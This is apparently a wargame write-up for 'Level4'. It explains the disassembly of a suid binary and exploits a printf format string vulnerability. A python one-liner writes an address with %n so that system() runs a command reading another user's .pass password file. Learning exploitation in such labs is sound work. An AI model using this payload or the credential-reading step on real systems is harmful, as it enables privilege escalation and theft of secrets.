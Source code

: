 # Level4

## Solution

* There is one file in our home, ```level4```, belonging to ```level5``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```n``` function.

* Here is the disassembled ```n``` function:
```asm
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,0x218
0x08048460 <+9>:	mov    eax,ds:0x8049804
0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
0x08048471 <+26>:	lea    eax,[ebp-0x208]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
0x0804847f <+40>:	lea    eax,[ebp-0x208]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
0x0804848d <+54>:	mov    eax,ds:0x8049810
0x08048492 <+59>:	cmp    eax,0x1025544
0x08048497 <+64>:	jne    0x80484a5 <n+78>
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
0x080484a0 <+73>:	call   0x8048360 <system@plt>
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
   ```

* Several interesting information about it:

	* ```n``` calls ```fgets``` at offset ```35``` function with a buffer allocated on the stack.
	* then it calls ```p``` function (see after) at offset ```49```, passing the buffer in parameter.
	* between offsets ```54``` and ```64```, it compares the value contained at the address ```0x8049810``` with the value ```0x1025544```.
	* if they are the same, it calls ```system``` function. ```gdb``` allows us to see that the command passed in parameter is ```/bin/cat /home/user/level5/.pass```

* Here is the diassembled ```p``` function:
```
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
0x08048455 <+17>:	leave
0x08048456 <+18>:	ret
   ```

* Interesting information about it:

	* there is call to ```printf``` at offset ```12```. ```gdb``` allows us to see that it is with the buffer allocated for ```fgets```


* What we did with all of this:

	* the goal was to modify the value held at ```0x8049810``` so that it becomes equal to ```0x1025544```, what would launch the ```system("/bin/cat /home/user/level5/.pass")```
	* for that we exploited the "format string vulnerability" of ```printf``` called in ```p```, with our own ```input``` (the one we send to ```fgets```).
	* we used conversion specifiers (for instance ```%x```), to get to the beginning of the buffer allocated for ```fgets```. Indeed, each time we use a conversion specifier, ```printf``` "points" after the last argument it processed on the stack.
	* We made sure the first value at the beginning of the buffer was ```0x8049810```
	* then we used ```%n``` to store at this address the length of the output string

	* To make a long story short:
	```sh
	python -c "print('10980408'.decode('hex') + '%8x ' * 10 + '%16930022x' + '%n')" > /var/crash/lvl4
	```
	* ```10980408``` is the little endian written address we want to write at
	* we used ```11``` conversion specifiers to reach the beginiing of the buffer (there were ```(10 + 1) * 4 = 44``` bytes separating first argument of printf from the buffer)
	* we use the lenght modifier ```%16930022x``` to output a final string of the size ```0x1025544```
	* ```%n``` stores this value at the address ```0x8049810```

	* We finally get the flag by launching:
	```sh
	cat /var/crash/lvl4 | ./level4
	```
